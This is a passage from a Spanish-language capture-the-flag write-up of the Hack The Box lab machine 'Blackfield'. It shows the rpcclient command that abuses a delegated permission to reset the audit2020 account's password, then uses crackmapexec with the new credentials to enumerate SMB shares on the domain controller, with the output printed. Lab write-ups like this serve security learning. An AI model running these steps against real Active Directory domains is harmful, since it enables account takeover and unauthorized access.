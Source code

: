 ![](/assets/images/Blackfield/img1.png)

Eso quiere decir que el usuario Support tiene permisos para cambiarle la contraseña al usuario audit2020.

Podemos usar herramientas como rpcclient para abusar de eso.

```bash
rpcclient \$\> setuserinfo2 audit2020 23 'Testing123!'
rpcclient \$\>
```

Le hemos cambiado la password al usuario "audit2020", si listamos los recursos compartidos a los que tenemos acceso podemos ver un recurso nuevo:

```bash
❯ crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'Testing123!' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Testing123! 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```
